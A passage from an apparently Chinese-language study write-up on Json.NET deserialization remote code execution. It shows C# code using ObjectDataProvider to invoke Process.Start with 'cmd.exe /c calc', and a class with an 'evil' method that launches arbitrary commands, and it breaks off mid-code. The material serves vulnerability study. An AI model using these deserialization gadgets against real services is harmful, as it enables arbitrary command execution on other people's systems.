 上面两种方式都可以触发RCE，弹出计算器

### 漏洞分析

还记得在前面学习`XmlSerializer`的时候，提到了`ObjectDataProvider`可以这样去调用方法执行命令

```
class Program
{
    static void Main(string[] args)
    {
        ObjectDataProvider objectDataProvider = new ObjectDataProvider();
        objectDataProvider.MethodName = "Start";
        objectDataProvider.MethodParameters.Add("cmd.exe");
        objectDataProvider.MethodParameters.Add("/c calc");
        objectDataProvider.ObjectInstance = new Process();
        Console.ReadKey();
    }
}
```

那如果直接用Json.Net对这个类进行序列化，然后反序列化时就可以触发，但是当我实际序列化的时候

![image-20240401162527276](images/8.png)

发生了报错，当我将ObjectDataProvider的类换成下面后，就得到了序列化的值

```C#
using Newtonsoft.Json;
using System;
using System.Diagnostics;
using System.IO;
using System.Reflection;
using System.Windows.Data;

namespace Json.NetSerializer
{
    class Person
    {
        public void evil(string filename, string cmd)
        {
            Process process = new Process();
            process.StartInfo.FileName = filename;
            process.StartInfo.Arguments = cmd;
            process.Start();
        }
```